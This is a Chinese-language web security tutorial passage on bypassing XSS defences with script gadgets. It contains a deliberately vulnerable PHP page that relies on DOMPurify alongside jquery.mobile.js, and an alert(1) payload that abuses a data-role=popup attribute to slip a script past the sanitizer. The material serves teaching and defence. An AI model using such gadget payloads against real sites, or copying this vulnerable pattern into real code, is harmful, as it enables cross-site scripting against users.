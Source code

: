 Bypass Via Script Gadgets
================================

简介
--------------------------------
一些网站会使用白名单或者一些基于DOM的防御方式，对这些方式，有一种被称为 ``Code Reuse`` 的攻击方式可以绕过。该方式和二进制攻防中的Gadget相似，使用目标中的合法代码来达到绕过防御措施的目的。在论文 ``Code-Reuse Attacks for the Web: Breaking Cross-Site Scripting Mitigations via Script Gadgets`` 中有该方法的具体描述。
下面有一个简单的例子，这个例子使用了 ``DOMPurify`` 来加固，但是因为引入了 ``jquery.mobile.js`` 导致可以被攻击。



例子
--------------------------------
::

    // index.php
    <?php

    $msg = $_GET['message'];
    $msg = str_replace("\n", "", $msg);
    $msg = base64_encode($msg);

    ?>

    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>Preview</title>
        <script type="text/javascript" src="purify.js"></script>
        <script type="text/javascript" src="jquery.js"></script>
        <script type="text/javascript" src="jquery.mobile.js"></script>
    </head>
    <body>
        
        <script type="text/javascript">
        var d= atob('<?php echo $msg; ?>');
        var cleanvar = DOMPurify.sanitize(d);
        document.write(cleanvar);
        </script>

    </body>
    </html>


::

    // payload
    <div data-role=popup id='-->
    &lt;script&gt;alert(1)&lt;/script&gt;'>
    </div>
